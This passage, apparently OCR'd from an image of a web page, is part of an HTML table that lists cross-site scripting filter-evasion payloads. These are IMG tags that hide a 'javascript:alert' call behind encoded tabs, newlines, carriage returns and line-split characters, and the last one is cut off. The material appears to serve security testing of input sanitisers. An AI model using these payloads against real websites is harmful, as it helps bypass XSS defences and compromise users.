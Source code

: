 </tr>
<tr>
<td>Embedded Encoded Tab</td>
<td>
<pre>&lt;IMG »
SRC="jav&amp;#x09;ascript:alert( »
'XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Embedded Newline</td>
<td>
<pre>&lt;IMG »
SRC="jav&amp;#x0A;ascript:alert( »
'XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Embedded Carriage Return</td>
<td>
<pre>&lt;IMG »
SRC="jav&amp;#x0D;ascript:alert( »
'XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Multiline w/Carriage Returns</td>
<td>
<pre>&lt;IMG
SRC
=
"
j
a
v
a
s
c
r
i »

p
t
:
a
l
e
r
t
(
'
X
S
S
' »
